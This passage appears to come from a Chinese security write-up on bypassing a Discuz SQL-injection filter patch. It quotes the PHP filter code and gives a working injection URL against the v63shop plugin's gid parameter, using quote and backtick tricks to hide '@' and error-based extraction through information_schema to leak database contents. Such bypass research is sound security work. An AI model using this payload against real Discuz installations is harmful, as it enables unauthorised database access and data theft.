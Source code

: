 加了一个判断，过滤字符串中的@，但是始终没有修复根本问题，关键是上边的那个 if 判断会将单引号之间的内容（包括单引号）替换为空，代码如下：

```
if (strpos($sql, '/') === false && strpos($sql, '#') === false && strpos($sql, '-- ') === false) {
    $clean = preg_replace("/'(.+?)'/s", '', $sql);
}

```

这里我只要稍做一下变换就可以让@字符消失，从而绕过它的过滤，利用如下所示：

```
http://localhost/discuz/plugin.php?id=v63shop:goods&pac=info&gid=`'` or @`''` union select 1 from (select count(*),concat((select database()),floor(rand(0)*2))a from information_schema.tables group by a)b where @`'` 
```

这里我引入了`'`用来隐藏第一个@字符，并将第一个@`'`替换为@`''`，这样便可以替换掉第二个@，这里我们跟踪一下代码，如图所示： ￼ ![enter image description here](img/img17_u47_png.jpg)

可以看到$clean 变为

```
select * from pre_v63_goods where `id` =`` 
```

成功绕过补丁，如图所示：

![enter image description here](img/img18_u40_png.jpg) ￼ 不过这样做的代价是不能再使用 union select 了，只能通过报错获取数据。
